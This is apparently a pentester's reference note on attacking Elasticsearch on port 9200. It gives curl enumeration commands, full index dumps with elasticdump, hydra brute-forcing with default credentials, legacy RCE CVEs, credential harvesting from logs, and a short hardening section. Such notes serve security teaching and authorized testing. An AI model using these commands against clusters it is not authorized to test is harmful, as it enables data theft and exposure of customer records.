

# 18 - Elasticsearch (Port 9200) Pentesting

## 1. Executive Summary

Elasticsearch is a distributed search and analytics engine with a **REST/JSON API on TCP 9200** (node-to-node transport on 9300). It is the "E" in the ELK stack and frequently ingests logs, application data, and customer records. For years it shipped with **no authentication** in the free tier, so internet-exposed clusters became a recurring source of mega-breaches. Because the entire interface is HTTP, `curl` alone enumerates and exfiltrates everything. The whole game is: is auth on, and if not, dump every index.

## 2. Protocol Overview & Architecture

Data lives in **indices** (analogous to databases), each holding JSON **documents**. You query via HTTP: `GET /_cat/indices` lists indices, `GET /<index>/_search` returns documents. Administrative and security info sits under `/_cluster`, `/_nodes`, and `/_security`. Security (X-Pack) adds HTTP Basic auth and role-based access; when it is enabled you get `401`/`security_exception` and must authenticate.

## 3. Enumeration & Footprinting

```bash
# Version + banner
curl http://<IP>:9200/

# Cluster + indices (the money shot)
curl http://<IP>:9200/_cat/indices?v
curl http://<IP>:9200/_cluster/health?pretty
curl http://<IP>:9200/_nodes?pretty        # versions, plugins, OS

# Security config (if reachable)
curl http://<IP>:9200/_security/user
```
A `401 Unauthorized` / `security_exception` means auth is configured — pivot to brute force (it is HTTP Basic).

## 4. Exploitation Deep Dive

### 4.1 Unauthenticated Data Exfiltration
If `_cat/indices` returns data without creds, dump everything:
```bash
curl 'http://<IP>:9200/<index>/_search?pretty&size=10000'
# Mirror an entire index
elasticdump --input=http://<IP>:9200/<index> --output=loot.json --type=data
```

### 4.2 Credential Brute Force (X-Pack enabled)
```bash
hydra -L users.txt -P pass.txt <IP> http-get /_cat/indices
# default/common: elastic:changeme, kibana:kibana
```

### 4.3 Legacy RCE CVEs
Old versions had serious holes worth checking by version:
- **CVE-2014-3120 / CVE-2015-1427** — Groovy/MVEL script sandbox bypass → RCE on Elasticsearch ≤ 1.x.
- **CVE-2015-5531** — directory traversal via the snapshot API.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Log indices leak credentials, tokens, internal hostnames, and request bodies.
- Customer/PII indices are direct breach impact.
- Script-engine RCE runs as the `elasticsearch` user → local privesc pivot.

## 7. Defense & Hardening
1. Enable security (authentication + TLS) — free since 6.8/7.1; set strong passwords.
2. Bind `network.host` to internal interfaces; firewall 9200/9300.
3. Disable dynamic scripting on legacy versions; patch.
4. Role-based access; never expose to the internet.

## 8. Chaining Opportunities
- Credentials harvested from log indices → SSH/web reuse.
- Kibana (5601) often fronts the same cluster. See **[[50 - Kibana (Port 5601) Pentesting]]**.

## 9. Related Notes
- [[50 - Kibana (Port 5601) Pentesting]]
- [[17 - Cassandra (Ports 9042-9160) Pentesting]]

## 10. Tools
`curl`, `elasticdump`, `hydra`, `metasploit` elasticsearch modules.
